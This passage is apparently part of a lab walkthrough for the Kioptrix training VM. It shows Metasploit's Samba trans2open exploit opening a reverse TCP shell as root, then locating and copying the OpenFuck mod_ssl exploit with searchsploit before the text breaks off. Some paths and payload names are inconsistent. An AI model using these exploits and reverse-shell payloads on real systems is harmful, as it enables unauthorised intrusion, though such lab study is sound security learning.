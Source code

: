 To set our own payload, we can use the `set` command. This gives metasploit something to actually inject into memory we can access via this [buffer-overflow](cybersecurity/TTPs/exploitation/buffer-overflow.md). To see a list of all the payloads, you can start typing `set payload`, then use double tap to see all of the available options:
```bash
msf6 exploit(linux/samba/trans2open) > set payload 
set payload generic/custom
set payload generic/debug_trap
set payload generic/shell_bind_aws_ssm
set payload generic/shell_bind_tcp
set payload generic/shell_reverse_tcp
...
```
In this case, we want a payload which will execute successfully on a linux target. 
```bash
set payload linux/x86/samba/reverse_shell_tcp
payload => linux/x86/shell_reverse_tcp
msf6 exploit(linux/samba/trans2open) > run
*] Started reverse TCP handler on 10.0.2.4:4444 
[*] 10.0.2.5:139 - Trying return address 0xbffffdfc...
[*] 10.0.2.5:139 - Trying return address 0xbffffcfc...
[*] 10.0.2.5:139 - Trying return address 0xbffffbfc...
[*] Command shell session 12 opened (10.0.2.4:4444 -> 10.0.2.5:32800) at 2023-09-30 16:43:23 -0400
whoami
root # <--- output from target
```
# Gaining Root 'Manually'
Instead of using Metasploit to do everything for us, we can achieve the same results manually.
## OpenFuck
[OpenFuck](cybersecurity/vulnerabilities/openfuck.md) is another vulnerability which we found that Kioptrix is likely vulnerable to. Lets try to manually exploit Kioptrix w/ it.
### Using Searchsploit
We can get the exploit code for OpenFuck from either [Exploit-DB](https://www.exploit-db.com) or by using the [searchsploit](cybersecurity/tools/exploitation/searchsploit.md) command (since we have a library of most of the Exploit DB database on hand already downloaded).
```bash
searchsploit openfuck
 Exploit Title                                             |  Path
----------------------------------------------------------------------- --------------
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c'              |unix/remote/21671.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c'            | unix/remote/47080.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c'            | unix/remote/764.c
----------------------------------------------------------------------- --------------
Shellcodes: No Results
```
We've got 3 versions of OpenFuck on hand. Let's use `OpenFuck.c`, which is located at `/etc/share/exploitdb/exploits/usr/remote/21671.c`. Instead of using this version, lets copy it into a new folder called `kioptrix`
```bash
mkdir kioptrix
cp /usr/share/exploitdb/exploits/unix/remote/21671.c kioptrix/21671.c
```
**BEFORE EXECUTING SOME RANDOM MALWARE ON OUR MACHINE** let's check it against the [official repo](https://gitlab.com/exploit-database/exploitdb/-/blob/main/exploits/unix/remote/21671.c?ref_type=heads) (hosted on GitLab) listed on Exploit DB. Both ExploitDB and the repo mark this code as "EDB verified", meaning they've tested in themselves.
### Running `OpenFuck.c`
If we cat the OpenFuck code, we can find some instructions at the top of the file:
```bash
/*
source: https://www.securityfocus.com/bid/5363/info
```